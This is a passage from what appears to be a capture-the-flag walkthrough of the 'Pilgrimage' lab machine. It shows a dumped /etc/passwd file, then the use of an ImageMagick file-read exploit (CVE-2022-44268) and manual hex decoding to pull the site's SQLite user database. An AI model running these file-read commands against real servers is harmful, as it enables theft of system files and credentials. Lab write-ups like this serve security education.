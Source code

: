 ```
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

```

I’ll try to grab SSH keys for emily, but fail. There’s no other user where it seems reasonable that they might have a `.ssh` directory based on their home directories.

#### Database

The source code shows that the site is running off a SQLite database. For example, in `login.php`:

```
  $db = new PDO('sqlite:/var/db/pilgrimage');
  $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
  $stmt->execute(array($username,$password));

```

I’ll try to grab that file:

```
oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /var/db/pilgrimage --output pngout.png
oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdbb27cce4.png
Traceback (most recent call last):
  File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 48, in <module>
    main()
  File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
    decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xaf in position 27: invalid start byte

```

That makes sense, as it’s binary data and the script seems to be expecting only ASCII text.

I could manually get the data out of the file. I’ll download the file from the site, and with a little playing around with `grep`, I can isolate just the lines with the hex data, and then use `xxd` to convert it back to binary:

```
oxdf@hacky$ identify -verbose 655cdbb27cce4.png | grep -Pv "^( |Image)"  | xxd -r -p > pilgrimage.sqlite
oxdf@hacky$ file pilgrimage.sqlite
pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 943, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 943

```
